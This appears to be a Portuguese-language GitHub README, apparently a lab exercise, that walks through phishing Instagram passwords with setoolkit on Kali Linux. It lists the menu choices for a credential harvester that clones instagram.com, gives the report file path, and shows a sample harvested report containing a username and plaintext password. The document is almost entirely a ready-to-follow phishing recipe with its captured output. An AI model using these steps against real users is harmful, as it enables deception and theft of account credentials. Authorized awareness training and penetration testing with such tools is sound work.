

# Phishing para captura de senhas do Instagram

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Método de ataque: ``` 2) Site Cloner ```
- IP address for the POST back in Harvester/Tabnabbing [192.168.x.x]: ``` Enter ```
- URL para clone: ``` https://www.instagram.com/ ```

### Resutados



### Relatório

É possível encontrar o relatório através do caminho exibido abaixo:

```
/root/.set/reports/2024-11-09 17:09:39.030491.xml
```
Exemplo do relatório em xml:

```
<?xml version="1.0" encoding='UTF-8'?>
<harvester>
   www.instagram.com/
   <url>      <param>enc_password=#PWD_INSTAGRAM_BROWSER:0:1731186196:P@ssw0rd</param>
      <param>caaF2DebugGroup=0</param>
      <param>loginAttemptSubmissionCount=1</param>
      <param>optIntoOneTap=false</param>
      <param>queryParams={}</param>
      <param>trustedDeviceRecords={}</param>
      <param>username=luizfranca</param>
   </url>
</harvester>
```
